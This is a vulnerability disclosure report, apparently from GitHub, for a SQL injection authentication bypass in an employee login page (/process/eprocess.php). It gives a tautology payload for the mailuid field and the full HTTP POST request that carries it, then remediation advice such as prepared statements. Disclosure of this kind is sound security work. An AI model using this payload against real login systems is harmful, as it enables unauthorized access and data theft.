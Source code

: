 # Employee Login SQL Injection Authentication Bypass Report

### Title: Employee Login SQL Injection Authentication Bypass
### Affected Component: /process/eprocess.php
### CWE-287: Improper Authentication
### CVSS Base Score: 7.5 (Self-rated with the assistance of an online CVSS calculator)

### Impact:
The SQL injection authentication bypass vulnerability in the employee login functionality poses a significant security risk, allowing unauthorized access to the system. Exploiting this flaw enables attackers to manipulate the mailuid parameter and inject SQL syntax, bypassing authentication mechanisms and potentially gaining unauthorized entry to sensitive areas of the application. The exploit's consequences include unauthorized data access, integrity manipulation, and potential compliance violations, highlighting the critical need for mitigation measures.

### Proof of Concept (POC):
To demonstrate the SQL injection authentication bypass vulnerability, attackers manipulate the mailuid parameter in the employee login page (`elogin.html`). By injecting the payload `'nochizplz' OR 1=1 LIMIT 1--` into the mailuid field, they exploit SQL injection to bypass authentication and access sensitive areas of the application. This exploit leverages the `1=1` condition to retrieve the first user's credentials, potentially compromising sensitive data.

#### HTTP Request:
```http
POST /process/eprocess.php HTTP/1.1
Host: [REDACTED]
Content-Length: 62
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Origin: http://localhost:8080
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-ch-ua-platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: empty
Referer: http://[REDACTED]/elogin.html
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

mailuid='nochizplz'+OR+1=1+LIMIT+1--&pwd=nochizplzsad&login-submit=Login
```
### Remediation:
To address the SQL injection authentication bypass vulnerability, it is crucial to implement robust input validation mechanisms to sanitize user inputs effectively, particularly in critical areas such as authentication processes. Utilizing parameterized queries or prepared statements can help ensure that user-supplied data is treated as data rather than executable code, significantly reducing the risk of SQL injection attacks. Additionally, adopting the principle of least privilege by restricting database permissions and deploying a web application firewall to intercept and filter malicious traffic can provide further protection against such vulnerabilities. Regular security assessments, comprehensive training programs, and prompt patch management are also essential components of a holistic remediation strategy to mitigate the risk of SQL injection vulnerabilities and bolster the overall security posture of web applications.


